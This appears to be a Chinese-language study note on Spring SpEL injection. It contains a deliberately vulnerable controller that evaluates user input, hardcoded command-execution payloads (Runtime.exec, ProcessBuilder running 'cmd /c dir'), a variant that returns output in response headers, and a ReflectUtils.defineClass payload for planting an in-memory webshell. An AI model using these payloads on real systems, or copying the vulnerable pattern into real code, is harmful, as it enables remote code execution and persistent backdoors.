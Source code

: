 ```java
@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload){
        String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        payload="new java.util.Scanner(new java.lang.ProcessBuilder(\"cmd\", \"/c\", \"dir\", \".\\\").start().getInputStream(), \"GBK\").useDelimiter(\"asdasdasdasd\").next()";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue();
    }
}

```
<a name="Y69SU"></a>
## <br />ResponseHeader
```java
@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload,HttpServletResponse response){
        StandardEvaluationContext context=new StandardEvaluationContext();
        context.setVariable("response",response);
        //String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue(context);
    }
}
```
会在响应头中返回我们的执行结果<br />![微信截图_20230808232900.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1691508547132-40a2ec03-9450-4e37-87eb-1c269eee6569.png#averageHue=%23fcfaf9&clientId=u82a1314a-e2f1-4&from=paste&height=100&id=ue2e5b71f&originHeight=125&originWidth=536&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=5588&status=done&style=none&taskId=ucb57bdce-9c4a-4887-b2c9-9c4fd543520&title=&width=428.8)


<a name="FkZF7"></a>
# 内存马
关注一下<br />org.springframework.cglib.core.ReflectUtil.defineClass方法<br />![微信截图_20230809141354.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1691561641890-b9287383-5516-482d-a0d0-272986de39d6.png#averageHue=%232d2c2c&clientId=u67eb8cd2-c442-4&from=paste&height=330&id=uff18d865&originHeight=413&originWidth=1024&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=59345&status=done&style=none&taskId=u4c205a68-8ed8-4708-b8d5-ea6cad3e8b2&title=&width=819.2)
```java
T(org.springframework.cglib.core.ReflectUtils).defineClass('InceptorShell',T(org.springframework.util.Base64Utils).decodeFromString(''),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()
```
内存马文件
```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

```